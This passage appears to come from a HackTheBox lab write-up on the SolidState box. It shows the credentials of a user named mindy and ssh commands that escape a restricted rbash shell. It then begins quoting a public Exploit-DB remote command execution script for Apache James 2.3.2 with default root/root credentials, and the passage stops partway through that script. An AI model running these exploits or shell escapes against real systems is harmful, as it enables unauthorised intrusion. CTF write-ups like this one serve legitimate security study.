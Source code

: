 ```
username: mindy
pass: P@55W0rd1!2@
```

Now we ssh in

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-Sense/2021-12-17-HackTheBox-Sense%2002:35:05.png)

`/etc/passwd` shows that `mindy's` shell is rbash:

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-Sense/2021-12-17-HackTheBox-Sense%2002:35:57.png)

## Rbash

Now, with that in mind, we need to bypass this restricted shell, in order to get a fully interactive shell

[Reference 1](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)

We could escape using `-t bash` on the ssh command

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-Sense/2021-12-17-HackTheBox-Sense%2005:13:47.png)

We could use the command `ssh mindy@10.10.10.51 'bash --noprofile'` also

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2005:20:08.png)

Ok, but this I think was not the intended way to get this box. We need to explore the `James` smtp server.

# Shell as Mindy (2º Path - James)

Here we'll explore the James server to get a reverse shell in this box. First we look what the script in searchsploit does

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2005:31:57.png)

```py
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
```